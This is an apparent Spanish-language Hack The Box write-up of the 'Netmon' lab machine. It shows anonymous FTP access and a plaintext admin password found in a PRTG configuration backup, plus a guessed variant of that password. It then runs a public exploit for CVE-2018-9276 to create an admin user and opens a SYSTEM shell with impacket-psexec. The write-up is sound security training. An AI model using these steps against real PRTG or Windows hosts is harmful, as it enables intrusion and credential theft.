



## DESCRIPCION

En la máquina de hoy veremos la criticidad de una mala configuración de un servidor FTP el cual nos permitirá obtener archivos del sistema como backups de configuración, documentos, etc...
Obtendremos las credenciales de la aplicación web a vulnerar en el archivo de configuración, y explotaremos una vulnerabilidad pública CVE-2018-9276 que nos dará RCE agregando un usuario 
administrador en el sistema.

<p style="text-align:center;"></p>

## INDICE

- [Reconocimiento de puertos](#reconocimiento-de-puertos)
- [Conexión por FTP](#ftp)
- [Reconocimiento Web](#reconocimiento-web)
- [Búsqueda de una vulnerabilidad](#vulnerabilidad)
- [Encontrar credenciales válidas](#buscar-credenciales-validas)
- [Validar credenciales](#validacion-de-las-credenciales)
- [Explotación de la vulnerabilidad](#explotacion-de-la-vulnerabilidad)
- [Conexión con la máquina víctima](#conexion-con-la-maquina-victima)
- [Flags](#flags)
- [Conocimientos obtenidos](#conocimientos-obtenidos)
- [Errores](#errores)
- [Autores y Referencias](#autores-y-referencias)

## RECONOCIMIENTO DE PUERTOS

Lo primero que haremos será observar que puertos están abiertos utilizando la herramienta `Nmap`.

```zsh
❯ cat Puertos
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Puertos
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ nmap --open -p- -T5 -oG Puertos 10.10.10.152
   2   │ Host: 10.10.10.152 ()   Status: Up
   3   │ Host: 10.10.10.152 ()   Ports: 21/open/tcp//ftp///, 80/open/tcp//http///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///, 5985/open/tcp//wsman///, 47001/open/tcp
       │ //winrm///, 49664/open/tcp/////, 49665/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

❯ Reconocimiento Puertos

{*} Extrayendo puertos...

        La direccion ip es: 10.10.10.152
        Los puertos abiertos son: 21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669

        Los puertos han sido copiados al portapapeles
```
<br>Sabiendo cuáles son los puertos abiertos en la máquina víctima procederemos a lanzar unos scripts predeterminados con `Nmap`.

```zsh
nmap -sCV -p 21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -oN Objetivos 10.10.10.152
Nmap scan report for 10.10.10.152
Host is up (0.052s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-07-11T01:08:35
|_  start_date: 2022-07-10T19:01:19
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

```
<h3>Observaciones</h3>

El protocolo ftp tiene el login por `anonymous:anonymous` habilitado y por lo que el output nos muestra tenemos acceso a la integridad de los archivos de un sistema windows.

También podemos ver que en el puerto 80 se ubica un servidor web.

## FTP

Nos conectamos por ftp con `anonymous:anonymous` y descargamos la flag `user.txt`.

```zsh
❯ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:void4m0n): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||50145|)
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||50148|)
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||50156|)
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
07-25-22  03:33PM                   34 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||50157|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************************************|    34        0.24 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.19 KiB/s)

```
Hemos conseguido la flag user.txt, vamos a ver que encontramos en el servidor web.

## RECONOCIMIENTO WEB

La página web ubicada en `10.10.10.152:80` nos muestra un login de una aplicación web llamada `PRTG NETWORK MONITOR`. 

<p style="text-align:center;"></p>

Observando el código fuente de la página podemos ver la versión de la aplicación
`'appVersion':'18.1.37.13946'`

```html
<script>
(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
})(window,document,'script','//www.google-analytics.com/analytics.js','__ga');
__ga('create', 'UA-154425-18', {
'appId':'-10',
'appName':'PRTG Network Monitor (NETMON)',
'appVersion':'18.1.37.13946' # Esta es la versión de la aplicación
});
(function(){
  var url =  document.createElement("a")
    , urlStripOff = ["mapid", "tmpid", "subid", "topnumber", "username", "password", "email_address"];
  window.__gaStripOrigin = function(urlString){
    var param = [];
    url.href = (""+urlString);
    param = url.search.replace("?","").split("&");
    param = param.filter(function(value){
     return (value !== "" && urlStripOff.indexOf(value.split("=")[0]) === -1)
    });
 return url.pathname + (param.length === 0 ? "" : "?" +  param.join("&"));
};})();
__ga("set", "location", "");
__ga("set", "hostname", "trial.paessler.com");
__ga("set","dimension4","0");
__ga("set","dimension3","18.1.37.13946".split(".").slice(0,3).join("."));
__ga("set","dimension2","1369");
__ga("set","dimension1","webgui");
</script>

```
Teniendo esta información podemos proceder a buscar alguna vulnerabilidad existente para esta versión.

## VULNERABILIDAD

Podemos utilizar `searchsploit` para buscar vulnerabilidades publicadas de PRTG NETWORK MONITOR

```zsh
❯ searchsploit PRTG
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                                                                                         | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' Stored XSS                                                                                                                        | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)                                                                                                     | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                                                                                                                      | java/webapps/34108.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```
Existe una vulnerabilidad del tipo RCE para la versión `18.2.38`, si recordamos en el servidor corre la `18.1.37.13946` por lo que en teoría es válida. Al ser necesaria la autenticación
para explotar la vulnerabilidad debemos intentar encontrar unas credenciales que nos permitan acceder. Podemos intentar buscarlas en el servidor ftp, igual cabe la posibilidad de que existan
credenciales en texto plano en algún archivo de configuración.

## BUSCAR CREDENCIALES VALIDAS

<h3>PATH UTILIZADO POR PRTG</h3>

Si googleamos que path utiliza PRTG NETWORK MONITOR encontramos el siguiente `/ProgramData/Paessler/PRTG Network Monitor`, vamos a ver que encontramos.

```zsh
ftp> pwd
Remote directory: /
ftp> cd "/ProgramData/Paessler/PRTG Network Monitor"
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||50880|)
125 Data connection already open; Transfer starting.
12-15-21  08:23AM       <DIR>          Configuration Auto-Backups
07-25-22  03:33PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
07-25-22  03:33PM       <DIR>          Logs (Web Server)
07-25-22  03:38PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat 
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
07-25-22  04:14PM              1671886 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database

```
Todos los archivos de configuración son interesantes, habitualmente existen usuarios válidos o incluso contraseñas. 

Nos descargamos los archivos.

```zsh
ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
229 Entering Extended Passive Mode (|||50901|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************************************|  1161 KiB    1.13 MiB/s    00:00 ETAftp: Reading from network: Llamada al sistema interrumpida
  0% |                                                                                                                                                                  |    -1        0.00 KiB/s    --:-- ETA
226 Transfer complete.
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
229 Entering Extended Passive Mode (|||50931|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************************************|  1126 KiB    1.14 MiB/s    00:00 ETA
226 Transfer complete.
1153755 bytes received in 00:00 (1.09 MiB/s)

```
<br>Si nos fijamos en la cantidad de líneas que tienen los archivos obtenemos lo siguiente

```zsh
❯ wc -l PRTG\ Configuration.dat PRTG\ Configuration.old.bak
  30099 PRTG Configuration.dat
  29258 PRTG Configuration.old.bak
  59357 total

```
<br>Son una cantidad muy elevada de líneas para revisarlas a mano, por lo que tenemos que filtrar el contenido de alguna forma. Con una rápida búsqueda en google encontramos que el usuario con 
privilegios de administrador por defecto es `prtgadmin`.

```zsh
❯ cat PRTG\ Configuration.dat | grep -A 5 -B 5 "prtgadmin"
                </homepage>
                <lastlogin>
                  43522.1088048495
                </lastlogin>
                <login>
                  prtgadmin
                </login>
                <name>
                  PRTG System Administrator
                </name>
                <ownerid>

```

<br>No parecen existir credenciales en este archivo, vamos a probar con `PRTG Configuration.old.bak`.

```zsh
❯ cat PRTG\ Configuration.old.bak | grep -A 5 -B 5 "prtgadmin"
            </dbauth>
            <dbcredentials>
              0
            </dbcredentials>
            <dbpassword>
	     <!-- User: prtgadmin -->
	     PrTg@dmin2018 # Parece ser una credencial válida
            </dbpassword>
            <dbtimeout>
              60
            </dbtimeout>
--
                </homepage>
                <lastlogin>
                  43499.7768071065
                </lastlogin>
                <login>
                  prtgadmin
                </login>
                <name>
                  PRTG System Administrator
                </name>
                <ownerid>
```

¡Bien! Parece que tenemos unas credenciales válidas `prtgadmin:PrTg@dmin2018` para acceder al panel y explotar la RCE.

## VALIDACION DE LAS CREDENCIALES

Vaya, probamos las credenciales y no son correctas, que raro. Puede ser que el back up sea de otro año, igual el administrador reutiliza la misma contraseña cambiando el año, probemos con `PrTg@dmin2019`.

<p style="text-align:center;"></p>

¡Pum! Credenciales válidas, ya podemos explotar la vulnerabilidad antes mencionada.

## EXPLOTACION DE LA VULNERABILIDAD

La vulnerabilidad a explotar es la siguiente *CVE-2018-9276*, utilizamos el script dado `46527.sh`.

```
 ./46527.sh

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'void4m0n' in the administrators group with password 'hacked' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 

```
<br>Le tenemos que agregar las cookies de sesión válidas.

<p style="text-align:center;"></p>

<br>Ejecutamos el script.

```zsh
❯ ./46527.sh -u http://10.10.10.152 -c "_ga=GA1.4.1675455584.1657501671; _gid=GA1.4.1296130676.1658777663; OCTOPUS1813713946=ezU2M0FCNzU2LURFRjAtNEE4Ny04NDNFLUIwRTAwNEJGNjE5QX0%3D; _gat=1"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 

```
Se ha creado el usuario administrador `pentest` con la contraseña `P3nT3st!`.

## CONEXION CON LA MAQUINA VICTIMA

Usando `impacket-psexec` nos conectamos a la máquina víctima con el usuario creado gracias al script.

```
❯ impacket-psexec pentest@10.10.10.152
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file MAyGnnAc.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service PBCl on 10.10.10.152.....
[*] Starting service PBCl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```

Ya hemos conseguido comprometer la máquina, solo nos falta encontrar la root flag.
 
## FLAGS

<h3>ROOT.TXT</h3>

```

C:\Users\Administrator\Desktop> type root.txt

321b15b5e9d378c9816a9bb756cef45f

```

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Netmon</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos con Nmap.
- Conexión por ftp con credenciales por defecto.
- Búsqueda de credenciales en archivos de configuración.
- Reconocimiento web.
- Explotación de una vulnerabilidad pública (RCE).
- Conexión con la máquina post explotación.

## ERRORES

Un posible error que podéis sufrir es el siguiente: 
- A la hora de conectaros post explotación con `impacket-psexec` puede daros un error, lo solucioné ejecutando el script RCE de forma repetida hasta que
me diera acceso.

## AUTORES y REFERENCIAS

Autor del write up: Luis Miranda Sierra (Void4m0n) <a href="https://app.hackthebox.com/profile/1104062" target="_blank">HTB</a>. Si queréis contactarme por cualquier motivo lo podéis hacer desde <a href="https://twitter.com/Void4m0n" target="_blank">Twitter</a>.


Autor de la máquina:  <em>mrb3n</em>, muchas gracias por la creación de Netmon aportando a la comunidad. <a href="https://app.hackthebox.com/users/2984" target="_blank">HTB</a>.
